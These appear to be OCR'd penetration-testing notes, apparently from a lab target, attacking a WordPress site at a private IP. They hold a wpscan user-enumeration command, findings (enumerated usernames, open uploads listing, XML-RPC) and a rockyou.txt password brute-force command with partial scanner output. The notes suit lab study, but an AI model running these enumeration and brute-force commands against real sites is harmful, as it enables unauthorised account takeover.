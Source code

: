 WordPress

    wpscan --url http://192.168.61.222 --api-token [TOKEN] --enumerate u p -o ~/wpscan.json -f json

 Findings Summary

    "Server: Apache/2.4.41 (Ubuntu)"
    "url": "http://192.168.61.222/xmlrpc.php"
    "to_s": "Upload directory has listing enabled: http://192.168.61.222/wp-content/uploads/"
    "url": "http://192.168.61.222/readme.html"
    "url": "http://192.168.61.222/wp-cron.php"
    **"Version number": "5.1.4",
    "users": {"barney","peter","admin","gillian","stephen":}**
    

bruteforce users  attack

    sudo wpscan --url http://192.168.61.222 --usernames 'barney,peter,admin,gillian,stephen' --passwords /usr/share/wordlists/rockyou.txt
    	

    NOTE: Gem::Specification#rubyforge_project= is deprecated with no replacement. It will be removed on or after 2019-12-01.
    Gem::Specification#rubyforge_project= called from /usr/share/rubygems-integration/all/specifications/i18n-0.7.0.gemspec:20.
    _______________________________________________________________
             __          _______   _____
             \ \        / /  __ \ / ____|
              \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
               \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
                \  /\  /  | |     ____) | (__| (_| | | | |
                 \/  \/   |_|    |_____/ \___|\__,_|_| |_|
    
             WordPress Security Scanner by the WPScan Team
                             Version 3.7.9
           Sponsored by Automattic - https://automattic.com/
           @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
    _______________________________________________________________
    
    [+] URL: http://192.168.61.222/ [192.168.61.222]
    [+] Started: Mon Mar  2 19:23:43 2020
    
    Interesting Finding(s):
    
    [+] Headers
     | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
     | Found By: Headers (Passive Detection)
     | Confidence: 100%
    
    [+] XML-RPC seems to be enabled: http://192.168.61.222/xmlrpc.php
     | Found By: Direct Access (Aggressive Detection)
     | Confidence: 100%
     |  - http://codex.wordpress.org/XML-RPC_Pingback_API
     |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
     |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
     |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
     |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access
    